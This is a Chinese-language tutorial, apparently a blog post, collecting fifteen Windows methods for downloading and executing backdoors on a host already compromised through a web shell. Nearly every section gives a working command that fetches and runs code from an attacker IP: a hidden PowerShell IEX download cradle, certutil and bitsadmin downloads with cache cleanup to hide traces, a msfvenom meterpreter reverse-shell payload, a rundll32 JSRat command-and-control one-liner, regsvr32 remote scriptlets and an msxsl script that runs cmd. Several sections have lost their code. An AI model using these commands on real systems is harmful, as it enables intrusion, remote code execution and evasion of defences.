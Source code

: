 当我们通过 Web 渗透获取了一个 Shell，而且目标主机是 Windows，我们该怎么去下载后门文件到目标主机上执行呢？

一般来说，实现 Windows 文件下载执行的方式不外乎以下几种方式。第一种，远程下载文件到本地，然后再执行；**第二种，远程下载执行，执行过程没有二进制文件落地，这种方式已然成为后门文件下载执行的首要方式****。**另外呢，只要你所在服务器的环境支持，你也可以通过任何一门语言来实现它，这种方式暂不在本文的讨论范围之内。

**在这里，****本文收集了 15 种常见的文件下载执行的方式，并结合具体案例**，让我们一起来看看是怎么实现的吧。

*   PowerShell
    
*   Bitsadmin
    
*   certutil
    
*   wget
    
*   ipc$ 文件共享
    
*   FTP
    
*   TFTP
    
*   WinScp
    
*   msiexec
    
*   IEExec
    
*   mshta
    
*   rundll32
    
*   regsvr32
    
*   MSXSL.EXE
    
*   pubprn.vbs
    
* * *

**1、PowerShell**

PowerShell 是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用。

远程下载文件保存在本地：

```
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
```

远程执行命令：

```
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
```

**2、Bitsadmin**

bitsadmin 是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。

```
bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt
```

输入以上命令，成功下载文件。

**3、certutil**

用于备份证书服务，支持 xp-win10 都支持。由于 certutil 下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

注：缓存目录为：

```
”%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content”
```

```
#下载文件
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
#删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```

**4、wget**  

Windows 环境下，可上传免安装的可执行程序 wget.exe 到目标机器，使用 wget 下载文件。

wget.exe 下载：https://eternallybored.org/misc/wget/

```
wget -O "evil.txt" http://192.168.28.128/imag/evil.txt
```

**5、ipc$ 文件共享**

IPC$(Internet Process Connection) 是共享” 命名管道” 的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

**6、FTP**

一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

**7、TFTP**

用来下载远程文件的最简单的网络协议，它基于 UDP 协议而实现

tftp32 服务端下载地址：http://tftpd32.jounin.net/tftpd32_download.html

```
tftp -i 你的IP get 要下载文件 存放位置
```

**8、WinScp**

WinSCP 是一个 Windows 环境下使用 SSH 的开源图形化 SFTP 客户端。

使用 winscp.exe 作为命令行参数执行远程上传 / 下载操作。

**9、msiexec**

msiexec 支持远程下载功能，将 msi 文件上传到服务器，通过如下命令远程执行：

**10、IEExec**

IEexec.exe 应用程序是. NET Framework 附带程序，存在于多个系统白名单内。

生成 Payload：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe
```

使用管理员身份打开 cmd，分别运行下面两条命令。

**11、mshta**

mshta 用于执行. hta 文件，而 hta 是 HTML Applocation 的缩写，也就是 HTML 应用程序。而 hta 中也支持 VBS。所以我们可以利用 hta 来下载文件。

```
mshta http://192.168.28.128/run.hta
```

run.hta 内容如下：

**12、rundll32**

其实还是依赖于 WScript.shell 这个组件，在这里我们使用 JSRat 来做演示，JSRat 是一个命令和控制框架，仅为 rundll32.exe 和 regsvr32.exe 生成恶意程序。

项目地址：

```
https://github.com/Hood3dRob1n/JSRat-Py.git
```

步骤一：开始运行 JSRat，监听本地 8888 端口。

步骤二：通过 url 访问，可以查看恶意代码。

复制代码如下：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

步骤三：在受害者 PC 运行该代码，将成功返回一个会话

**13、regsvr32**

Regsvr32 命令用于注册 COM 组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行

在目标机上执行：

```
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
```

可以通过自己构造. sct 文件，去下载执行我们的程序

执行命令，成功弹计算器：

**14、MSXSL.EXE**

msxsl.exe 是微软用于命令行下处理 XSL 的一个程序，所以通过他，我们可以执行 JavaScript 进而执行系统命令。

下载地址为：

```
https://www.microsoft.com/en-us/download/details.aspx?id=21714
```

msxsl.exe 需要接受两个文件，XML 及 XSL 文件，可以远程加载，具体方式如下：

```
msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
```

demo.xml

exec.xsl

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

**15、pubprn.vbs**

在 Windows 7 以上版本存在一个名为 PubPrn.vbs 的微软已签名 WSH 脚本，其位于 C:\Windows\System32\Printing_Admin_Scripts\en-US，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给 GetObject()

```
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

test.sct

